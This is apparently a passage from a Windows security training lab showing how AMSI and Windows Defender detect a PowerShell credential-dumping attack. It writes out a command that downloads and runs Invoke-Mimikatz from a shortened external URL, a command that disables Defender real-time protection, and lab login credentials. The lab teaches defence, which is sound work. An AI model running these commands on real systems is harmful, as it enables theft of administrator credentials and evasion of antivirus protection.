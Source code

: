   > **Note:**  You sign in to LON-SVR1 as **ADATUM\\Administrator** in order to observe in the subsequent steps of this task how an attacker can compromise its credentials. In general, you should avoid signing in with accounts that are members of the **Domain Admins** group to domain member computers.

2.   Ensure that you are signed on to the LON-CL1 Windows 10 Professional lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Beth**
  -   PASSWORD: **Pa55w.rd**

3.   From the **Administrator: Windows PowerShell** window, type and execute the following (F:\\LabFiles\\Scripts\\Lab1Ex2Task3-01.ps1):

```
IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('LON-SVR1')
```

4.   Note the resulting error message. The attempt to download and execute malicious script is blocked again by Windows Defender. To verify this, switch back to the Event Viewer window and refresh the view of the Windows Defender Operational log.
5.   In the list of events in the Windows Defender Operational log, locate the most recent event ID 1116 with the Warning level and double-click it.
6.   On the General tab of the event properties, scroll down through its description and note that the Detection Source is set to AMSI.

  > **Note:**  As you can see, AMSI in combination with Windows Defender successfully blocked execution of the malicious script. Now you will attempt the same exploit directly from a Windows PowerShell remoting session to LON-SVR1

7.   From the **Administrator: Windows PowerShell** window, type and execute the following:

```
Enter-PSSession –ComputerName LON-SVR1
```

  > **Note:**  This will establish a Windows PowerShell Remoting session to LON-SVR1, as indicated by the [LON-SVR1]: prefix of the Windows PowerShell prompt.

8.   From the **Administrator: Windows PowerShell ISE** window, type and execute the following:

```
Set-MpPreference -DisableRealtimeMonitoring
```

  > **Note:**  This will disable Real Time Protection of Windows Defender. 

9.   From the **Administrator: Windows PowerShell ISE** window, type and execute the following:

```
IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds
```

  > **Note:**  The exploit this time succeeded, providing the listing of cached credentials, including the NTLM password hash of the **ADATUM\\Administrator** user account. 

  > **Note:**  Obviously, as a member of the local Administrators group, you could have applied the same approach and disable Windows Defender Real Time Protection on the Windows 10 computer, however, this would not give you access to the NTLM password hash of the **ADATUM\\Administrator** user account. 
